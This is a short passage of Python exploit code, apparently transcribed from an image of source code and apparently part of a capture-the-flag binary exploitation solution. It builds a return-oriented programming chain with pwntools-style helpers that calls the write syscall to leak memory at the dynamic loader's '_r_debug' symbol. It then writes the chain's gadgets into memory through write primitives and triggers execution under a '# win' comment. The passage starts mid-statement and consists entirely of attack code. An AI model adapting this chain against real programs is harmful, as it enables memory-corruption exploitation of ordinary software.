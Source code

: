 ```python
        ld.symbols["_r_debug"],
        64,
    ],
)
rop.call(
    "syscall",
    [
        constants.linux.amd64.SYS_write,
        constants.STDOUT_FILENO,
        ld.symbols["_r_debug"],
        64,
    ],
)
# this is so hacky and so wrong but i do not care
def is_ptr(ptr): return ptr > 0x1000


for i, gadget in enumerate(rop.build()):
    if isinstance(gadget, bytes):
        write(0x100 + i * 8, gadget)
    elif is_ptr(gadget):
        rel_write(0x100 + i * 8, gadget)
    else:
        write(0x100 + i * 8, p64(gadget))

# ----------- win -----------
call_fn(rbx_write_call)
```